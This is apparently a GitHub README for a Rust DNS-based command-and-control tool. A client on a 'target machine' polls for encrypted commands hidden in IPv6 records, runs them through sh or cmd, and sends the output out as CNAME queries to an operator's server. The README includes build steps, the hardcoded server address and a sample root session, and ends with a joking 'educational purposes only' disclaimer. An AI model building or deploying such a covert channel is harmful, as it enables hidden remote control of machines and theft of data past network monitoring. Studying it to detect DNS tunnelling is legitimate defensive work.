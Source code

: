 # DNS Based Command Execution
A simple rust client and server utilities for DNS based command execution and data exfiltration

## Features
 - AES-GCM encyption for the commands to be executed and the output that will be exfiltrated
 
 - Commands are fetched from the DNS server as an encrypted string encoded as IPv6 addresses
      
 - Data is exfiltrated as a series of CNAME requests to the dns server.
 
 - DNS client is running as a process, with a configurable sleep timer, default value is 5 seconds


## Limitations
 - The DNS server is making use of rust's dns-server crate which is using UDP as a transport protocol, messages are limited to 512 bytes (RFC), however data is split into chunks so this is not that big limitation
 - No interactive command support (like text editors etc.), at the moment all commands are executed with a spawned shell process (`sh` for linux, `cmd` for windows).

 
 
## TODO
 - Switch from `std::process::Command` to a more native way for executing commands on linux and windows
 - Add the ability to download/upload files
 - Add the ability to dynamically reconfigure the DNS server's address (the same as the sleep)
 - Add support for configurable encryption key
 
 
## Dependencies
The project is built with two main dependencies `rustdns` for the client and `dns-server` for the server.


## Usage
The project is organized in a simple rust workspace, so just compile the server and client binary.

```bash
root@2cc16c1a4c39:/# cargo build -p client
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.11s
root@2cc16c1a4c39:/# cargo build -p server
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.07s
root@2cc16c1a4c39:/mnt/dnsExfil# 

```

At the moment the DNS Server's address and port are hardcoded in the client, so make sure to change it

```rust
//Address of the DNS Server to query
pub static DNS_SERVER: &str = "172.17.0.3:53";
```

Run the client on the target machine, run the server and start inputing commands
```bash
root@cf4cb157ea1a:/# target/debug/server 
[+] Starting dns server on port 53
#> id
#> 
uid=0(root) gid=0(root) groups=0(root)


#> hostname
#> 
2cc16c1a4c39

#> 
```

The way it works is as follows:
1. Command is input on the server
2. It get stored in a static variable
3. The client makes AAAA (IPv6) request every SLEEP seconds to check for commands
4. The server responds with encrypted and encoded (as IPv6) command to the AAAA query
5. The client executes the commands (after decoding and decryption) encrypts the output and constructs a series of CNAME queries which are send to the server, after the final part an A query is send to signify the end of the data
6. The server receives the queries, parses and accumulates the data and after an A request is received, it decodes, decrypts the data and outputs it.



## Disclaimer
As always this simple tool is created for educational purposes only xD